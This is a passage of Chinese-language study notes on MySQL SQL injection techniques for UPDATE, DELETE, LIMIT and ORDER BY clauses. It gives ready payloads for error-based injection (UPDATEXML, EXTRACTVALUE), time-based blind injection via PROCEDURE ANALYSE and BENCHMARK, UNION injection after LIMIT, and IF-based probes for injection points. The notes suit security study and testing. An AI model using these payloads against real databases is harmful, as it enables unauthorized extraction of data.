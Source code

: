 

<br>
## UPDATE 注入
 - 报错注入
   - `UPDATE users SET username = '' AND UPDATEXML(1,CONCAT(1,DATABASE(),0x7e),1) WHERE password = '2'`
   - 注意：update中子查询不能跟相同的表名
     - `UPDATE users SET username = '' AND UPDATEXML(1,CONCAT(1,(SELECT id FROM (SELECT * FROM users)x),0x7e),1) WHERE password = '2'`
 - 盲注(同INSERT)

## DELETE INTO 注入
 - 报错注入
 - 盲注(同INSERT)


另外的一种姿势   [一种新的MySQL下Update、Insert注入方法](https://www.anquanke.com/post/id/85487)

<br>
## LIMIT 注入

### 无ORDER BY
可以使用`UNION SELECT`来进行联合注入
```SQL
SELECT * FROM users LIMIT 1,1 UNION SELECT 1,2,3#,1
SELECT * FROM users ORDER BY 3LIMIT 1,1 UNION SELECT 1,2,3 #,1     
# 如果有orderby会报错incorrect usage of UNION and ORDER BY
```

### 有ORDER BY
```sql
// 利用报错
SELECT * FROM users ORDER BY 3  LIMIT 1,1 procedure analyse(updatexml(1,concat(0x7e,version(),0x7e),1),1) #,1

// 利用时间盲注
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)

时间盲注在实验的时候出现报错，报错信息是语法错误，该问题待解决
```






<br>
## ORDER BY 注入

### 判断ORDER BY 注入点
```
// 根据IF条件语句判断执行的排序结果
orderby=IF(3>2,username,password)
orderby=IF(2>2,username,password)

注意：只能使用username这样的字段名，不能使用 IF(3>2,1,100)
因为返回内容会判断为字符返回，而不是整数类型
```
